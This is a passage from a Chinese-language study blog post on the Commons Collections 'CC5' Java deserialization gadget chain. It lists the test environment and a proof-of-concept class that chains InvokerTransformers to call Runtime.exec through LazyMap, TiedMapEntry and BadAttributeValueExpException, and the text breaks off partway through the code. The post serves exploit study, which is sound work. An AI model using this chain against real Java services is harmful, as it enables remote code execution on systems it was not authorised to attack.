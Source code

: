 ```yaml
---
title: CC链学习-中
author: Yasax1
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: 一个好奇的人
authorDesc: 一个好奇的人
categories: 技术
comments: false
date: 2021-07-13 11:04:25
tags: Java复现
keywords: CC链
description: Java
photos: \img\article\3.png
---
```


# CC5

## 测试环境

- jdk1.7
- Commons Collections 3.1

## POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class CC51 {
        public static Object generatePayload() throws Exception {
            ChainedTransformer Transformerchain = new ChainedTransformer(new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{"calc"})});
            HashMap innermap = new HashMap();
            LazyMap map = (LazyMap)LazyMap.decorate(innermap,Transformerchain);
            TiedMapEntry tiedmap = new TiedMapEntry(map,123);
            BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
            Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
            val.setAccessible(true);
```